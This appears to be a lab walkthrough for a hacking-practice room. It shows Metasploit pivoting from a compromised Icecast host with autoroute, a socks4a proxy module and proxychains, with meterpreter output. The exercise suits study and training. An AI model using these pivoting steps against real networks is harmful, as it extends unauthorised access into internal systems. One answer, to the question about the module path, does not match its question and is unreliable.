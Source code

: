`shell`

## [Task 7] Makin' Cisco Proud

Last but certainly not least, let's take a look at the autorouting options available to us in Metasploit. While our victim machine may not have multiple network interfaces (NICs), we'll walk through the motions of pivoting through our victim as if it did have access to extra networks.

1. Let's go ahead and run the command `run autoroute -h`, this will pull up the help menu for autoroute. What command do we run to add a route to the following subnet: 172.18.1.0/24? Use the -n flag in your answer.

```
meterpreter > run autoroute -h

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Usage:   run autoroute [-r] -s subnet -n netmask
[*] Examples:
[*]   run autoroute -s 10.1.1.0 -n 255.255.255.0  # Add a route to 10.10.10.1/255.255.255.0
[*]   run autoroute -s 10.10.10.1                 # Netmask defaults to 255.255.255.0
[*]   run autoroute -s 10.10.10.1/24              # CIDR notation is also okay
[*]   run autoroute -p                            # Print active routing table
[*]   run autoroute -d -s 10.10.10.1              # Deletes the 10.10.10.1/255.255.255.0 route
[*] Use the "route" and "ipconfig" Meterpreter commands to learn about available routes
[-] Deprecation warning: This script has been replaced by the post/multi/manage/autoroute module
```

`run autoroute -s 172.18.1.0 -n 255.255.255.0`

2. Additionally, we can start a socks4a proxy server out of this session. Background our current meterpreter session and run the command `search server/socks4a`. What is the full path to the socks4a auxiliary module?

```
msf5 exploit(windows/http/icecast_header) > search server/socks4a

Matching Modules
================

   #  Name                      Disclosure Date  Rank    Check  Description
   -  ----                      ---------------  ----    -----  -----------
   0  auxiliary/server/socks4a                   normal  No     Socks4a Proxy Server
```

`search server/socks4a`

3. Once we've started a socks server we can modify our /etc/proxychains.conf file to include our new server. What command do we prefix our commands (outside of Metasploit) to run them through our socks4a server with proxychains?

```
msf5 exploit(windows/http/icecast_header) > proxychains
[*] exec: proxychains

ProxyChains-3.1 (http://proxychains.sf.net)
        usage:
                proxychains <prog> [args]
```

`proxychains`
